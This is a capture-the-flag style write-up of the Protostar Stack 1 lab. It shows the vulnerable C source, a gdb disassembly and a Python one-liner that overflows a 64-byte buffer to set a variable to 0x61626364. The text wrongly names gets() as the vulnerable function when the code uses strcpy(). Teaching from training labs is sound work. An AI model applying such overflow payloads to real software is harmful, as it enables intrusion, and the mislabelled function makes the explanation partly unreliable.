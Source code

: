 # PROTOSTAR : STACK 1
[Protostar:Stack0](https://exploit.education/protostar/stack-one/)

### SOURCE CODE

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

### **CODE ANALYSIS**
#### Vulnerability
- Stack Buffer Overflow

Same as the previous level we are going to exploit the **gets()**
function since it is vulnerable to Buffer Overflow attacks. After overflowing we need to pass the value keeping **LITTLE ENDIAN** in mind.

### **SOLUTION**

Below is the disassembly of **main()**
```
user@protostar:/opt/protostar/bin$ gdb -q stack1
Reading symbols from /opt/protostar/bin/stack1...done.
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x08048464 <main+0>:    push   ebp
0x08048465 <main+1>:    mov    ebp,esp
0x08048467 <main+3>:    and    esp,0xfffffff0
0x0804846a <main+6>:    sub    esp,0x60
0x0804846d <main+9>:    cmp    DWORD PTR [ebp+0x8],0x1
0x08048471 <main+13>:   jne    0x8048487 <main+35>
0x08048473 <main+15>:   mov    DWORD PTR [esp+0x4],0x80485a0
0x0804847b <main+23>:   mov    DWORD PTR [esp],0x1
0x08048482 <main+30>:   call   0x8048388 <errx@plt>
0x08048487 <main+35>:   mov    DWORD PTR [esp+0x5c],0x0
0x0804848f <main+43>:   mov    eax,DWORD PTR [ebp+0xc]
0x08048492 <main+46>:   add    eax,0x4
0x08048495 <main+49>:   mov    eax,DWORD PTR [eax]
0x08048497 <main+51>:   mov    DWORD PTR [esp+0x4],eax
0x0804849b <main+55>:   lea    eax,[esp+0x1c]
0x0804849f <main+59>:   mov    DWORD PTR [esp],eax
0x080484a2 <main+62>:   call   0x8048368 <strcpy@plt>
0x080484a7 <main+67>:   mov    eax,DWORD PTR [esp+0x5c]
0x080484ab <main+71>:   cmp    eax,0x61626364
0x080484b0 <main+76>:   jne    0x80484c0 <main+92>
0x080484b2 <main+78>:   mov    DWORD PTR [esp],0x80485bc
0x080484b9 <main+85>:   call   0x8048398 <puts@plt>
0x080484be <main+90>:   jmp    0x80484d5 <main+113>
0x080484c0 <main+92>:   mov    edx,DWORD PTR [esp+0x5c]
0x080484c4 <main+96>:   mov    eax,0x80485f3
0x080484c9 <main+101>:  mov    DWORD PTR [esp+0x4],edx
0x080484cd <main+105>:  mov    DWORD PTR [esp],eax
0x080484d0 <main+108>:  call   0x8048378 <printf@plt>
0x080484d5 <main+113>:  leave  
0x080484d6 <main+114>:  ret    
End of assembler dump.
(gdb) 
```

1. At **0x0804846d** there is a comparison of ebp+0x8 with 1. This line is checking if the user has suppied any command line arguments or not.

2. At **0x080484ab** there is another comparison, checks whether the value of eax is equal to 0x61626364.
    - If true prints "**you have correctly got the variable to the right value\n**"

    - If false eip goes to **0x80484c0** and prints "**Try again, you got 0x%08x\n", modified**"

Set up a breakpoint at **0x080484a7** and Passing input.
We can see the program overflows the **modified** variable and changes it to **0x41** but we need **0x61626364**. Lets write a python script.
```
(gdb) b *0x080484a7
Breakpoint 1 at 0x80484a7: file stack1/stack1.c, line 18.
(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Starting program: /opt/protostar/bin/stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, main (argc=2, argv=0xbffff804) at stack1/stack1.c:18
18      stack1/stack1.c: No such file or directory.
        in stack1/stack1.c
(gdb) c
Continuing.
Try again, you got 0x00000041

Program exited with code 036.
(gdb) 
```

### **PYTHON SCRIPT**
```
user@protostar:/opt/protostar/bin$ ./stack1 $(python -c "print 'A'*64 + 'dcba'")
you have correctly got the variable to the right value
user@protostar:/opt/protostar/bin$ 
```
We correctly changed the value of **modified** variable and keep in mind to pass the value in **LITTLE ENDIAN**. The string "dcba" will be stored in reverse in little endian and in hex values.
